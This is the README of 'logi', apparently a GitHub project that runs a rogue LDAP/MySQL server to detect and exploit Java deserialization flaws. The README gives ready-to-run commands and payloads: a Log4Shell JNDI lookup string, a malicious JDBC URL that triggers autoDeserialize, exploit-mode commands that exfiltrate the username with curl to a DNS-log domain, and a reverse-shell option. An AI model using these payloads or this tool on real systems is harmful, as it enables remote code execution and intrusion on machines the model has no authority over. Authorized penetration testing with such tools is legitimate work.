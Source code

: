 # ☕️LOGI
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
    - [📖LDAP](#ldap)
    - [🐬MySQL](#mysql)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## ✨Get started
Download logi from [release](https://github.com/cokeBeer/logi/releases), or use `go install`
```
go install github.com/cokeBeer/logi/cmd/logi@latest
```
Use `-h` to show help.
```
$ ./logi -h
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
BASIC CONFIG:
   -m, -mode int  1 for poc , 2 for probe, 3 for exploit
   -t, -type int  1 for ldap, 2 for mysql
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a LDAP/MySQL service, waiting for LDAP lookup/MySQL connect
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
### 📖LDAP
**Poc mode**

Run poc mode with dns domain `dnslog.me`:
```
./logi -t 1 -m 1 -d dnslog.me
```
You need to send a ldap lookup to logi.
For example, a log4shell poc like below can trigger a jndi lookup to your server.
```
${jndi:ldap://your-ip:your-port/somepath}
```
logi will send a response contains serialized payload. After target deserializes the payload, it will lookup a domain named `somepath.dnslog.me`. You can use this feature to confirm deserialize and mark targets.

**Probe mode with embed wordlist**

Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`:
```
./logi -t 1 -m 2 -d dnslog.me -w yso
```
You need to request many times to traverse the wordlist, which can be done by BurpSuite.
```
repeat ${jndi:ldap://your-ip:your-port/somepath} many times
```
After target deserializes logi's response, it will lookup the domain `ith-classname.somepath.dnslog.me`. You can use this feature to probe dependencies. Also, the number of classes in dict will be printed to console when logi starts, you can use this information to control the repetition.

**Probe mode with custom wordlist**

Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`:
```
./logi -t 1 -m 2 -d dnslog.me -wp ./dict.txt
```
One class name per line in dict.

**Exploit mode with embed gadget**

Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:
```
./logi -t 1 -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
**Exploit mode to get a reverse shell**

Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`:
```
./logi -t 1 -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
**Exploit mode with custom gadget**

Run exploit mode with custom binary payload in `./cc1`:
```
./logi -t 1 -m 3 -b ./cc1
```

### 🐬MySQL
In MySQL type, a fake MySQL server will be started. Mode poc and mode probe also work the same as LDAP type, but logi mainly focuses on exploit mode.

> it's ok just replace -t 1 with -t 2 in above commands

Run exploit mode on port `3307` with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:

```
./logi -t 2 -m 3 -p 3307 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
You need to send a JBDC connect to logi.
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false
```
You can also remove the param `useSSL=false`， this will cause JDBC connecting on TLS, and logi supports TLS connection too :).
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

## 🔮Image
![image](image/logi.png)
![image](image/dnslog.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)

[Urldns](https://github.com/kezibei/Urldns)